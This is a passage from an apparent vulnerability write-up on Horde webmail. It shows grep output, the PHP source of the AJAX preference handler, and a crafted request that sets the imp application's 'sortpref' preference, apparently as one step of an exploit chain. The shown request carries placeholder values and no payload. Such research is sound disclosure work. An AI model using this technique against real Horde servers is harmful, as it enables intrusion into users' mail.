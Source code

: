 ```sh
researcher@target:/var/www/horde$ grep -sir "Horde_Core_Ajax_Application_Handler_Prefs" .
./imp/lib/Ajax/Application.php:        $this->addHandler('Horde_Core_Ajax_Application_Handler_Prefs');
./mnemo/lib/Ajax/Application.php:        $this->addHandler('Horde_Core_Ajax_Application_Handler_Prefs');
./trean/lib/Ajax/Application.php:        $this->addHandler('Horde_Core_Ajax_Application_Handler_Prefs');
./kronolith/lib/Ajax/Application.php:        $this->addHandler('Horde_Core_Ajax_Application_Handler_Prefs');
./nag/lib/Ajax/Application.php:        $this->addHandler('Horde_Core_Ajax_Application_Handler_Prefs');
```

<p class="cn" markdown="1">Since the `IMP_Prefs_Sort` class is within the `imp` application, I opted to use the `IMP_Ajax_Application` class so that I can set the preference for the `imp` (since preferences are application specific). Inside of the `Horde_Core_Ajax_Application_Handler_Prefs` class, we can see the `setPrefValue` method definition:</p>

```php
class Horde_Core_Ajax_Application_Handler_Prefs extends Horde_Core_Ajax_Application_Handler
{
    /**
     * Sets a preference value.
     *
     * Variables used:
     *   - pref: (string) The preference name.
     *   - value: (mixed) The preference value.
     *
     * @return boolean  True on success.
     */
    public function setPrefValue()
    {
        return $GLOBALS['prefs']->setValue(
            $this->vars->pref,
            $this->vars->value
        );
    }

}
```

<p class="cn" markdown="1">Therefore, in order for us to set the `sortpref` preference for the `imp` application, we can use the following request:</p>

```
GET /horde/services/ajax.php/imp/setPrefValue?pref=sortpref&value=junk&token=<csrftoken> HTTP/1.1
Host: <target>
Cookie: Horde=<sessionid>
```

<p class="cn" markdown="1">Which returns the following response on success:</p>

```
HTTP/1.1 200 OK
...
Content-Length: 29
Content-Type: application/json

/*-secure-{"response":true}*/
```
